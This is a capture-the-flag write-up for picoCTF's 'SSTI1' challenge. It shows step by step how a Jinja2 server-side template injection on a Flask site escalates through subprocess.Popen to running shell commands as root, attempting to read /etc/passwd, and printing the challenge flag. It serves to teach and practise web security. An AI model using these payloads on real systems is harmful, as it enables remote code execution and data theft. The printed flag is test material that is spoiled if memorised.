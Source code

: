 ###SSTI1###

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)
"The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."

Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: {{global_name.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: {{global_name.__class__.__base__}}
Returns: <class 'object'>

Sending: {{g.__class__.__mro__}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: {{g.__class__.mro()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['mro']()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['__mro__']}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: {{get_flashed_messages}}
Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: {{get_flashed_messages.__class__}}
Returns: <class 'function'>

Sending: {{get_flashed_messages.__class__.__mro__}}
Returns: (<class 'function'>, <class 'object'>)

Sending: {{get_flashed_messages.__class__.__mro__[1]}}
Returns: <class 'object'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}
Returns: This returns all the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: {{g}}
Returns: <flask.g of 'app'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}
Returns: <class 'mappingproxy'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}
Returns: /etc/passwd

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: {{app.__class__}}
Returns: <class 'jinja2.runtime.Undefined'>

Sending: {{app.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: {{app.__class__.__mro__[1].__subclasses__()}}, I received all the subclasses again, This time I put this into my IDE and replaced all commas with newlines to better visualise this set.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen by specifying the above string which I will shorten to PAY1
{{app.__class__.__mro__[1].__subclasses__()[356]}} = PAY1

PAY1(<args>, stdout=-1).communicate()[0].decode()

if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}
Returns:
total 12
drwxr-xr-x 1 root root    25 Apr 13 03:37 .
drwxr-xr-x 1 root root    23 Apr 13 03:37 ..
drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__
-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root    58 Mar  6 19:43 flag
-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt

Seems like we found a flag file, lets check out what the requirements.txt are first.
Seems like the decode() function was throwing an error, removing this and converting this separately in python allowed us to see the following:

ÿþblinker==1.8.2
click==8.1.7
colorama==0.4.6
Flask==3.0.3
itsdangerous==2.2.0
Jinja2==3.1.4
MarkupSafe==2.1.5
Werkzeug==3.0.3

Seems like just details for the application to run, maybe a docker thing?

Anyways, lets cat the flag with:
{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}

Whoopee!

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


